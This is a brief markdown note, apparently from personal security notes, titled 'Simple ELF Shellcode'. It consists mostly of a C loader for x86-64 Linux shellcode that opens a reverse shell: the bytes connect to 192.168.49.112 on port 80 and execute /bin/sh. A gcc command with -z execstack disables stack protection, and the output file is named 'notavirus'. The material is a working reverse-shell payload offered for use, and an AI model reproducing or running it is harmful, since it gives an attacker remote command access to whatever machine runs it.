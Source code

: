 # Simple ELF Shellcode

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x00\x50\xc0\xa8\x31\x70\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

int main (int argc, char **argv)
{
        int (*ret)() = (int(*)())buf;
        ret();

}
```

Normally our shellcode execution would be blocked as the stack is marked as non-executable for binaries compiled by modern versions of gcc.

We can explicitly allow it with the -z execstack parameter.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ gcc notavirus.c -o notavirus.elf -z execstack
```